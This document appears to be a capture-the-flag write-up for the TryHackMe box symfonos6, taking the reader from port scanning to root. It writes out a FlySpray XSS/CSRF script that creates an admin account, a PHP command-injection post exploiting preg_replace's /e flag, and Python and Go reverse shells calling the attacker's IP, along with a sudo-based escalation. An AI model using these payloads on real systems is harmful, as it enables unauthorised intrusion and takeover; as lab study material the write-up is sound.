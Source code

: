 # hacking the box symfonos6 on https://tryhackme.com, based on what optionalctf did in this [VOD](https://www.twitch.tv/videos/594716003)

Tested on a fresh Kali Linux system.

Start with port scan:
`nmap -T5 --min-rate 2500 -sV 10.10.247.125 -oN nmap`

Result:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3000/tcp open  ppp?
3306/tcp open  mysql   MariaDB (unauthorized)                                       
5000/tcp open  upnp?                                                                         
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :                                                      
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============                           
SF-Port3000-TCP:V=7.80%I=7%D=4/17%Time=5E9A1EEE%P=x86_64-pc-linux-gnu%r(Ge                                    
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t                                    
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x                                        
SF:20Request")%r(GetRequest,2926,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\            
```

Next I installed Go and gobuster:

```
apt-get install golang
go get github.com/OJ/gobuster
export PATH=$PATH:/root/go/bin
```

First test with the medium wordlist:

`gobuster dir -u http://10.10.247.125/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

No results. Needs another wordlist which is not pre-installed:

```
apt -y install seclists
gobuster dir -u http://10.10.247.125/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

Result:

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/flyspray (Status: 301)
/posts (Status: 301)
```

When opening the website http://10.10.247.125/flyspray/ in web browser, there is a comment for the bug reports:

```
http://10.10.247.125/flyspray/index.php?do=details&task_id=1&status%5B0%5D= says:
Mr Super User commented on 30.03.2020 16:39
I will be checking this page frequently for updates.
```

Let's see if there is a known vulnerability for flyspray: `searchsploit flyspray`

One result:

```
FlySpray 1.0-rc4 - Cross-Site Scripting / Cross-Site Request Forgery                  | exploits/php/webapps/41918.txt
```

With `searchsploit -x 41918` we can see the details for this exploit. Next we create the file script.js from the exploit:

```
var tok = document.getElementsByName('csrftoken')[0].value;
var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'
var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Then we start a local webserver: `python -m SimpleHTTPServer 80`. Ttesting: http://localhost/script.js returns the content of the file.

Checking local IP with ifconfig: 10.10.244.179

Creating a new user "test" at http://10.10.247.125/flyspray

Open task http://10.10.247.125/flyspray/index.php?do=details&task_id=1 and add a comment.

Change user profile, use this for real name: `"><script src="http://10.10.244.179/script.js" />`

Script is loaded from a simulated web browser by Super User after a minute:

```
10.10.247.125 - - [17/Apr/2020 22:56:27] "GET /script.js HTTP/1.1" 200 -
```

This creates a new user `hacker` with the password `12345678`. Now there is a new bug report visible,
with the credentials to the git: http://10.10.247.125/flyspray/index.php?do=details&task_id=2

Sign in to http://10.10.247.125:3000 and browse the source code:

`main.go`: creates a new go web server for an API, with the URL starting at symfonos-ap/api/api.go: /ls2o4g
the file symfonos-api/api/api/v1.0/v1.0.go defines the next URL part, /v1.0, and then the services: ping, auth and posts.

So the full URL is http://10.10.247.125:5000/ls2o4g/v1.0/ping result page is a JSON file: `{"message":"pong"}`

For login, the same username and password can be used as for the git service:
```
curl -s -L -X POST "http://10.10.247.125:5000/ls2o4g/v1.0/auth/login" -H 'Content-Type: application/json' --data-raw '{"username": "xxxxxx", "password" : "xxxxxxxxx" }'
```

Result:

```
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1ODc3NzE4NTUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ._Dhi69xKLx5LRKJEUpfwLwyK_2ZlHUb9NDfIg2ZKQ94","user":{"display_name":"achilles","id":1,"username":"achilles"}}
```

The token is jwt encoded. With the website https://jwt.show it can be decoded:
```
{
  "exp": 1587771855,
  "user": {
    "display_name": "achilles",
    "id": 1,
    "username": "achilles"
  }
}
```

There is a post service as well. The token can be saved and then the POST service called with it. First install the JSON commandline processor:

```
apt-get install jq
```

then a script can load the token and send the POST request:

```
TOKEN=$(curl -s -L -X POST "http://10.10.247.125:5000/ls2o4g/v1.0/auth/login" -H 'Content-Type: application/json' --data-raw '{"username": "xxxxxxx", "password" : "xxxxxxxx" }' | jq -r '.token')
curl -L -X POST "http://10.10.247.125:5000/ls2o4g/v1.0/posts" -H 'Content-Type: application/json' -H "Authorization: Bearer $TOKEN" --data-raw '{"text": "system($_GET['cmd']);" }'
```

The posting is interpreted as PHP, because it uses `preg_replace`with the `e` flag, which executes the string it replaces as PHP code.
The relevant part of index.php (which you can see as well in the git repository) is the following:

```
<?php
while ($row = mysqli_fetch_assoc($result)) {
		$content = htmlspecialchars($row['text']);
		
		echo $content;

		preg_replace('/.*/e',$content, "Win");
}
?>
```

With the last curl command, a new posting `system($_GET['cmd'])` was added. We can now start netcat on our local system like this:

```
local system: nc -lvnp 9001
```

Then start the reverse shell as described here: [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
using the system PHP hack, so open this in a web browser:

```
http://10.10.247.125/posts/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.244.179",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This gives a remote shell as user apache. Now you can change to the user achilles.
but first we need to start a new shell, otherwise password enter of "su" doesn't work:

```
python -c 'import pty; pty.spawn("/bin/bash")'
su achilles
same password as above
```

Then we can check with `sudo -l`which commands can be started as root from the user. Result: `(ALL) NOPASSWD: /usr/local/go/bin/go`.

Next we search for a go reverse shell. Google search for "payload of all things": https://github.com/swisskyrepo/PayloadsAllTheThings
On this page is a link to a reverse shell sheet cheat: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md For go you can start a reverse shell like this:
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

On your local system, start another netcat:

```
local netcat: nc -lvnp 9002
```

On the target system, save the remote shell script as shell.go:

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.10.244.179:9002");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > shell.go
```

Then start the root shell:

```
sudo /usr/local/go/bin/go run shell.go
```

Now you have a root shell in the netcat window. The required proof.txt is in the root directory.
For "initial version" they want the full FlySpray version, which was not obvious for me.
